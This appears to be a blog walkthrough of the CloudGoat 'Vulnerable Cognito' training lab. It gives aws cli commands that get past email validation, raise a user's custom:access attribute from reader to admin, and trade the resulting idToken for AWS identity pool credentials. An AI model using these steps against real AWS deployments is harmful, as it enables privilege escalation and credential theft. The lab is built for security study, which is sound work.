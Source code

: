 ```yaml
---
title:  "CloudGoat: Vulnerable Cognito"
date:   2024-03-09
tags: cloudsecurity cybersecurity aws
last_modified_at: 2024-03-09
---
```


In this scenario, we have the login and signup page which used AWS Cognito Userpool as a backend to store a user data, and AWS Cognito IdentityPool which use Userpool as an identity provider. We can take advantage from misconfiguration of the AWS Cognito Userpool to get the AWS Cognito IdentityPool credentials.

## Sign up with desired email

After creating the scenario, you will get the url for index/login page. When you try to sign up with our desired email, you will get an error from email validation.

If you look at the html code of login page, you will find `ClientID` in it.

We can use the `ClientID` to bypass the email validation by using aws cli.
```shell
aws cognito-idp sign-up --client-id <client-id> --username <email> --password <password> --user-attributes '[{"Name":"given_name","Value":"lorem"},{"Name":"family_name","Value":"ipsum"}]' --region us-east-1
```

After signing up, you will get the confirmation code in your email.

To verify the user.
```shell
aws cognito-idp confirm-sign-up --client-id <client-id> --username <email> --confirmation-code <confirmation-code>
```

## Get Access Token
Now when we log in again, it will redirect us to the reader page (`reader.html`). This doesn't give us any information.

So we will explore more about the user with cli, but we need the access token.

We will capture the network packet to get the access token. There are many ways to do that.
- Burp Suite
- Network in Developer tools in web browser

For me, I use Chrome.

After we opened network tab in web browser, go back to login back and login with email and password again. Now you will see the access token. This happens when browser post to `cognito-idp.region.amazonaws.com`.

```json
{
    "AccessToken":"###"
}
```

I'm not sure whether we can get the access token in cookies or not, so I use the way above instead. {: .notice}

## Get user detail
To get user data
```shell
aws cognito-idp get-user --access-token <access-token>
```

Result:
```json
{
    "Username": "24f0eab5-09f4-4395-bcbf-b6e1a18e887a",
    "UserAttributes": [
        {
            "Name": "custom:access",
            "Value": "reader"
        },
        {
            "Name": "sub",
            "Value": "24f0eab5-09f4-4395-bcbf-b6e1a18e887a"
        },
        {
            "Name": "email_verified",
            "Value": "true"
        },
        {
            "Name": "given_name",
            "Value": "lorem"
        },
        {
            "Name": "family_name",
            "Value": "ipsum"
        },
        {
            "Name": "email",
            "Value": "badix10958@fashlend.com"
        }
    ]
}
```

We can see that one of the custom attributes is `custom:access`. Right now, our user is `reader`. If you investigate further in the html code in the login page, you will see that the user can be `admin`.

```js
if(access == 'admin'){
    window.location = "./admin.html";
}
else{
    window.location = "./reader.html"
}
```

## Change the custom attribute
We will change `custom:access` from `reader` to `admin`
```shell
aws cognito-idp update-user-attributes --access-token <access-token>  --user-attributes '[{"Name":"custom:access","Value":"admin"}]'
```

Now we got `admin` access.

This time we loged in again, it redirected us to admin page instead.

## Get Cognito Identity Credentials

After we were redirected to admin, if you check on Network tab in Developer tools, you will see `IdentityId` and cognito identity login url with `UserPoolId` and `idToken` of this user

```json
{
    "Logins": {
        "cognito-idp.<region>.amazonaws.com/{UserPoolId}": "<idToken>"
    },
    "IdentityId": "<IdentityId>"
}
```

Now we can get credentials from this user.
```shell
aws cognito-identity get-credentials-for-identity --region <region> --identity-id '<Id-found>' --logins "cognito-idp.<region>.amazonaws.com/<UserPoolId>=<idToken>"
```

Result:
```json
{
    "IdentityId": "us-east-1:43d6ab63-259f-c188-cc7d-18b40508783e",
    "Credentials": {
        "AccessKeyId": "AccessKeyId",
        "SecretKey": "SecretKey",
        "SessionToken": "SessionToken"
    }
}
```

We can create aws cli profile from this credentials. If you don't know how <a href="{% post_url 2024-03-05-cloudgoat-vulnerable-lambda %}">see here</a>

And with this credentials, we will get an assumed role `cognito_authenticated-vulnerable_cognito_###`

Thank you so much for reading until here. If you have any comments, suggestions, or recommendations, please reach me out at my [LinkedIn](https://www.linkedin.com/in/chayutpongpro/).

![mojito](/assets/images/mojito.jpg)
<sub><a href="https://unsplash.com/@kobbymendez?utm_content=creditCopyText&utm_medium=referral&utm_source=unsplash">Kobby Mendez</a> | <a href="https://unsplash.com/photos/three-clear-glass-cups-with-juice-xBFTjrMIC0c?utm_content=creditCopyText&utm_medium=referral&utm_source=unsplash">Unsplash</a></sub>
{: .text-center}
